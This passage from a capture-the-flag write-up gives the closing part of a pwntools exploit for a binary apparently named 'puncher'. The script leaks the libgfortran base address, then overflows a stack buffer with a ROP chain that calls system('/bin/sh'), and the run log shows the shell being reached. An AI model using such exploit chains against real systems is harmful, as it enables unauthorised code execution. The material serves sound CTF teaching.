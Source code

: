 ```python
payload += p64(pop_rsi_r15)
payload += p64(address_of_eight)  # second argument of punch
payload += p64(0)  # just a dummy value that goes into r15
payload += p64(punch)  # call punch
payload += p64(binary.symbols["main"])  # call main

p.sendlineafter("Reading line", payload)

p.recvuntil("_______________________________________________________________")
p.recvuntil("_______________________________________________________________")
p.recvuntil("_______________________________________________________________")

p.recvuntil("| ")
leak = p.recvline()
libgfortran.address = u64(leak[:8]) - libgfortran.symbols["_gfortran_st_write_done"]

print(f"libgfortran base: {hex(libgfortran.address)}")

p.sendlineafter("How many lines do you want to read?", str(2**24+1))

binsh = libgfortran.address + 0x0029c57b
system = libgfortran.symbols["system"]

payload = b'A'*0x40  # the original buffer
payload += b'B'*0xe  # some padding
payload += b'\x00\x00'  # set A to zero
payload += b'C'*0x10  # some padding
payload += b'D'*0x8  # saved RBP

# Here starts the ROP chain
payload += p64(pop_rdi)
payload += p64(binsh)  # first argument of system
payload += p64(system)  # call system

p.sendlineafter("Reading line", payload)

p.interactive()
```

If we execute this script, we get the flag:

```bash
> python solve.py  
[*] '.../puncher'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '.../libgfortran.so.5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
[+] Opening connection to challs.m0lecon.it on port 2637: Done
POW solved: b'yFzQIQvWOFcviW'
libgfortran base: 0x7f49d893a000
[*] Switching to interactive mode
       1
  _______________________________________________________________
 /                                                                \
| AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA |
```